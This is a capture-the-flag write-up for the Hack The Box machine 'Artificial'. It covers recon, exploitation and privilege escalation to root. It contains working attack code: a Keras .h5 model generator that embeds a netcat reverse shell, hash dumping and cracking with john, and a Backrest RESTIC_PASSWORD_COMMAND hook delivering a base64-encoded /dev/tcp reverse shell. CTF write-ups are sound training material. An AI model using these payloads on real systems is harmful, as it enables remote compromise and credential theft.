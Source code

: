```yaml
---
layout: default
title: Artificial [EN]
---
```



**Platform:** Linux\
**IP:** 10.129.70.3\
**Difficulty:** Easy\
**Author:** NoSec

> 🚨 **Follow the HTB grind in real-time — leaks, drops, and deep writeups**  
> 👉 [t.me/nosecpwn](https://t.me/nosecpwn)  
> _Don't read. Join._

---

## Recon

```bash
nmap -sC -sV -T4 10.129.70.3

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-24 14:07 CEST
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.045s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.15 seconds
```

**/etc/hosts edit:**
```bash
echo "10.10.11.74 artificial.htb" | sudo tee -a /etc/hosts
```

---

## Web Enumeration

The website provides login and registration functionality. After signing up, it allows uploading `.h5` files.

### Generating a malicious TensorFlow model(tenserflow-cpu==2.13.1 a required)

```python
# model_gen.py
import tensorflow as tf
import os

def exploit(x):
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.44 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("nosechere.h5")
```

**Docker command:**
```bash
sudo docker run -it --rm -v "$PWD":/app -w /app tensorflow/tensorflow:2.13.0 python3 model_gen.py
```

After uploading:
```bash
nc -lvnp 4444
```

---

## SQLite Database Enumeration

```bash
find / -type f \( -name "*.db" -o -name "*.sqlite3" \) 2>/dev/null
```

Found: `/home/app/app/instance/users.db`

```bash
sqlite3 /home/app/app/instance/users.db
.tables
.schema user
SELECT * FROM user;
```

### Cracking hashes (raw-md5):

```bash
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Example results:
```
mattp005
marwinn
```

---

## Privilege Escalation (Backup leak)

Using the `redteam-launcher` to check backups(https://github.com/No4Sec/redteam-launcher):
```
/var/backups/backrest_backup.tar.gz
```

**Download via HTTP server:**
```bash
cd /var/backups
python3 -m http.server
```

**On Kali:**
```bash
wget http://10.129.70.3:8000/backrest_backup.tar.gz
```

**Extract:**
```bash
tar -xvf backrest_backup.tar.gz
```

**config.json:**
```json
{
  "auth": {
    "users": [
      {
        "name": "backrest",
        "passwordBcrypt": "$2a$10$..."
      }
    ]
  }
}
```

Base64 decode:
```bash
cat hash.txt | base64 -d
```

John bcrypt:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

---

## Local RESTIC Web UI (port 9898)

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

After port forwarding, we can access the Backrest login page. Use the dumped credentials to log in and create a new repo.

**Environment variable exploit:**
```bash
RESTIC_PASSWORD_COMMAND=bash -c 'bash -i >& /dev/tcp/10.10.xx.xxx/4444 0>&1'
```

**Important:** for the `Hook` field, use:
```bash
RESTIC_PASSWORD_COMMAND=echo 'YmFzaCAtaSAmJiAvZGVyL3RjcC8xMC4xNi4xMzUvNDQ0NCAwPiYxCg==' | base64 -d | bash
```

**Flag:** `ON_ERROR_IGNORE`

**Why base64?** Because the input field tends to break special characters. Encoding helps to deliver the payload cleanly.

```bash
echo 'bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1' | base64
```

Then submit, and we get a root shell back:
```bash
nc -lvnp 4444
```
```bash
(root㉿NoSec)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.74] 50526
bash: cannot set terminal process group (28638): Inappropriate ioctl for device
bash: no job control in this shell
root@artificial:/# cd root
cd root
root@artificial:~# ls
ls
root.txt
scripts
root@artificial:~# 
```

---

## 🧩 Summary

Artificial is an easy but creative machine combining multiple exploitation vectors:

- Remote shell via malicious machine learning model
- Hash extraction from SQLite database
- Bcrypt hash found in backup archive
- RESTIC environment variable leading to RCE and root shell

The `.h5` TensorFlow model with embedded code execution and the RESTIC hook exploit were both unique highlights of the box.

**Key takeaways:**
- Never trust user-uploaded files
- Avoid running backup services as root
- Always inspect `.tar.gz` files — they may contain secrets :)

---

🎯 Rooted. Moving on to the next one. //

